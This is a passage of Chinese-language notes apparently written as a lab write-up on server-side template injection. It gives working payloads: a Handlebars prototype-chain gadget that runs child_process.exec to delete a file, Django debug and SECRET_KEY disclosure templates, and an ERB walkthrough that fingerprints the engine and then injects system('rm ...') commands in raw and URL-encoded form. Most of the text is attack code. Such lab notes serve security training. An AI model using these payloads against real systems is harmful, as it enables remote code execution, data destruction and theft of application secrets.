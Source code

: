 ```handlebars
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{arr.pop}}
        {{arr.push obj.constructor.name.constructor.bind}}
        {{arr.pop}}
        {{arr.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{arr.pop}}
            {{#blockHelperMissing obj.constructor.name.constructor.bind}}
              {{#with (arr.constructor (obj.constructor.name.constructor.bind.apply obj.constructor.name.constructor arr))}}
                {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                  {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                     {{#with (obj.constructor.constructor "test")}}
                        {{this}}
                     {{/with}}
                  {{/with}}
                {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
  {{/with}}
{{/with}}
```

###### django

```django
{%debug%}
{{settings.SECRET_KEY}}
```



#### 1. Basic server-side template injection

输入：`<%=foobar%>`，返回了错误提示：

```
Internal Server Error (erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError) from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval' from /usr/lib/ruby/2.5.0/erb.rb:876:in `result' from -e:4:in `<main>'
```

说明是ERB引擎。

```
?message=<%=7*7%>
```

返回`49`，说明存在SSTI漏洞。

payload:

```
?message=<%= system("rm /home/carlos/morale.txt") %>
---
?message=%3fmessage%3d<%25%3d+system("rm+/home/carlos/morale.txt")+%25>
```
